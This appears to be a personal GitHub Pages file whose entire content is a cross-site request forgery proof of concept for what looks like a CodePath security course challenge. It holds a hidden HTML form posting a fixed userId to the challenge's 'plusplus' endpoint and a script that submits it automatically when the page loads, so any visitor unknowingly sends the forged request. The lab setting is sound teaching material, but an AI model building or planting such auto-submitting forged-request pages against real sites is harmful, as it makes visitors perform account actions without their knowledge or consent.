 # JLPlummer79.github.io


<form name="csrf_form" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method=POST>
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd" />
  <input type="submit"/>
</form>

<script> document.csrf_form.submit(); </script>
